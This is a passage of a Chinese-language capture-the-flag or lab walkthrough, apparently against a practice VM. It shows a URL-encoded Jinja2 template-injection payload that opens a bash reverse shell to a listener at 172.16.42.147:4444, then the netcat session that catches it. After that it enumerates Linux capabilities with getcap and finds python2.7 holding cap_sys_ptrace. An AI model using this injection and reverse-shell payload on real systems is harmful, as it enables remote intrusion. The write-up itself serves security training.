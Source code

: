 ```
%7B%25%20import%20os%20%25%7D%7B%7Bos%2Esystem%28%27bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F172%2E16%2E42%2E147%2F4444%200%3E%261%22%27%29%7D%7D
```

成功反弹了shell

```shell
[root@kali ~]# nc -nvlp 4444
listening on [any] 4444 ...

connect to [172.16.42.147] from (UNKNOWN) [172.16.42.207] 55092
bash: cannot set terminal process group (650): Inappropriate ioctl for device
bash: no job control in this shell
saket@ubuntu:~$
saket@ubuntu:~$
```





## Capabilities权限提升

Capabilities是内核的一个功能，用来做权限管理。它将系统的特权分成了四十多个权限组。比如wireshark在Linux上如果不是root就不能直接执行，需要添加对应的Capabilites权限`setcap cap_net_raw,cap_net_admin=eip /user/bin/dumpcap`。

可以通过官方文档了解Capabilites：https://man7.org/linux/man-pages/man7/capabilities.7.html



- **递归查询系统所有的Capabilities权限文件，并且将标准错误输出到/dev/null**

  ```
  saket@ubuntu:~$ getcap -r / 2>/dev/null
  getcap -r / 2>/dev/null
  ```

  执行结果为空，单独执行getcap，发现是没有环境变量，那么我们指定路径

  ```
  saket@ubuntu:~$ getcap
  getcap
  Command 'getcap' is available in the following places
   * /sbin/getcap
   * /usr/sbin/getcap
  ```

  执行指令`/sbin/getcap -r / 2>/dev/null`

  ```
  saket@ubuntu:~$ /sbin/getcap -r / 2>/dev/null
  /sbin/getcap -r / 2>/dev/null
  /snap/core20/1695/usr/bin/ping = cap_net_raw+ep
  /usr/bin/python2.7 = cap_sys_ptrace+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  ```
